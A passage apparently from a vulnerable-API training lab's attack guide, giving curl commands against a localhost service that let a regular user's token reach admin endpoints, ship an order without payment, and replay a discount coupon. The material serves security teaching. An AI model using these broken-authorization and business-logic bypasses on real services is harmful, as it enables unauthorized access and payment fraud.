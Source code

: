 ### Attack: Access Admin Endpoint
```bash
# Access admin endpoint as regular user
curl -sX GET "http://localhost:3000/api/v1/admin/users" \
  -H "Authorization: Bearer $ALICE_TOKEN" | jq .
```

### Attack: Get System Stats
```bash
# Access system stats as regular user
curl -sX GET "http://localhost:3000/api/v1/admin/stats" \
  -H "Authorization: Bearer $ALICE_TOKEN" | jq .
```

**Expected Result**: Regular users can access admin functions.

## API6: Unrestricted Access to Sensitive Business Flows

### Attack: Ship Before Payment
```bash
# Create an order first
ORDER_ID=$(curl -sX POST "http://localhost:3000/api/v1/orders" \
  -H "Authorization: Bearer $ALICE_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "items":[{"itemId":1,"qty":1}],
    "shippingAddress":"123 Hack St"
  }' | jq -r .id)

# Ship order without payment
curl -sX POST "http://localhost:3000/api/v1/checkout/ship" \
  -H "Authorization: Bearer $ALICE_TOKEN" \
  -H "Content-Type: application/json" \
  -d "{\"orderId\":$ORDER_ID}" | jq .
```

### Attack: Coupon Replay Attack
```bash
# Apply same coupon multiple times
curl -sX POST "http://localhost:3000/api/v1/checkout/apply-coupon" \
  -H "Authorization: Bearer $ALICE_TOKEN" \
  -H "Content-Type: application/json" \
  -d "{\"orderId\":$ORDER_ID,\"couponCode\":\"HALFPRICE\"}" | jq .

curl -sX POST "http://localhost:3000/api/v1/checkout/apply-coupon" \
  -H "Authorization: Bearer $ALICE_TOKEN" \
  -H "Content-Type: application/json" \
  -d "{\"orderId\":$ORDER_ID,\"couponCode\":\"HALFPRICE\"}" | jq .
```

**Expected Result**: Business logic bypasses work.
